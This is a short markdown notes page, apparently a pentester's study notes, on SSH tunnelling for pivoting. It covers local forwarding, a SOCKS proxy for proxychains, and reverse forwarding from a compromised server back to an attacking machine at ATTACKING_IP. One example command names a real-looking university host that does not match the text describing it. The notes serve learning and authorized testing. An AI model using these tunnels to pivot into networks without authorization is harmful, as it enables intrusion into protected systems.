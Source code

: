 # SSH Tunnelling / Port Forwarding

### Forward Connections

Creating a **forward** (or "_local_") **SSH tunnel** can be done from the attacking box when we have SSH access to the target.

#### `Port Forwarding :` -L switch, which creates a link to a Local port.

* For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10:

```bash
ssh -L 8000:132.227.89.21:80 21108020@ssh.ufr-info-p6.jussieu.fr -fN

-f backgrounds the shell
-N tells SSH that it doesn't need to execute any commands,only set up the fucking connection
```

You can now access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 on our own attacking machine with `localhost:8000`.

```
Good Practice use a high port, out of the way, for the local connection.
```

#### `Creating a proxy :` -D switch

* For example: -D 1337. This will open up port 1337 on the attacking box as a **proxy** to send data through into the _protected network_.

This is useful when combined with a tool such as **proxychains**. An example of this command would be:

```bash
ssh -D 1337 user@172.16.0.5 -fN
```

***

### Reverse Connections

_Reverse connections_ are very possible with the **SSH client** (and indeed may be preferable if you have **a shell** on the **compromised server**, but not **SSH access**).

**They are, however, riskier** as you inherently must access **your attacking machine from the target** -- be it by using credentials, or preferably a key based system.

`Before we can make a reverse connection safely, there are a few steps to take:`

```
# 1. generate a new set of SSH keys and store them somewhere safe
ssh-keygen

# 2. Copy the contents of the public key, then edit the ~/.ssh/authorized_keys file on your own attacking machine.

# 3. New line, type the following line, then paste in the public key:
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty ssh-public-key

# 4. start the ssh service your the attacking machine
sudo systemctl start ssh

# 5. transfer the private key to the target server

# 6. With the key transferred, connect back with a reverse port forward (on the target server)
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN

or (In newer versions of the SSH client)
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

```bash
ssh -p port -okexAlgorithms=+<algo> user@0.0.0.0

ssh -o StrictHostKeyChecking=no -p 0.0.0.0

ssh -i id_rsa -L localport:127.0.0.1:remoteport user@0.0.0.0

#to get public key from a private key
ssh-keygen -y -e -f keyfile
```
